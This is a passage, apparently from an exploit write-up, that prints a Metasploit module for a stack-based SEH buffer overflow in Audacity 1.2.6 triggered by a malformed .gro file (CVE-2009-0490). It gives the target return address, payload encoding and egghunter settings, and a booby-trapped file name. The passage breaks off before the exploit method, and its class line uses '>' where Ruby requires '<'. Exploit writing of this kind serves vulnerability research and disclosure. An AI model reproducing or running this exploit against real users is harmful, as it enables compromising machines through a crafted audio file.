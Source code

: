 The final exploit looks like this:

```ruby
##
# $Id: audacity1-26.rb 6668 2009-06-17 20:54:52Z hdm $
##

##
# This file is part of the Metasploit Framework and may be subject to 
# redistribution and commercial restrictions. Please see the Metasploit
# Framework web site for more information on licensing and terms of use.
# http://metasploit.com/projects/Framework/
##

require 'msf/core'

class Metasploit3 > Msf::Exploit::Remote

	include Msf::Exploit::FILEFORMAT
	include Msf::Exploit::Remote::Egghunter
	
	def initialize(info = {})
		super(update_info(info,
			'Name'           => 'Audacity 1.2.6 (GRO File) SEH Overflow.',
			'Description'    => %q{
					Audacity is prone to a buffer-overflow vulnerability because it fails to perform adequate 
					boundary checks on user-supplied data. This issue occurs in the 
					'String_parse::get_nonspace_quoted()' function of the 'lib-src/allegro/strparse.cpp' 
					source file when handling malformed '.gro' files
					This module exploits a stack-based buffer overflow in the Audacity audio editor 1.6.2.
					An attacker must send the file to victim and the victim must import the "midi" file.
					},
			'License'        => MSF_LICENSE,
			'Author'         => [ 'muts & mr_me', 'Mati & Steve' ],
			'Version'        => '$Revision: 6668 $',
			'References'     =>
				[
					[ 'URL', 'http://milw0rm.com/exploits/7634' ],
					[ 'CVE', '2009-0490' ],
				],
			'Payload'        =>
				{
					'Space'    => 2000,
					'EncoderType'   => Msf::Encoder::Type::AlphanumMixed,
					'StackAdjustment' => -3500,
				},
			'Platform' => 'win',
			'Targets'        => 
				[
					[ 'Audacity Universal 1.2 ', { 'Ret' => 0x637410A9} ],
				], 
			'Privileged'     => false,
			'DisclosureDate' => '5th Jan 2009',
			'DefaultTarget'  => 0))

			register_options(
				[
					OptString.new('FILENAME', [ true, 'The file name.',  'auda_eviL.gro']),
				], self.class)

```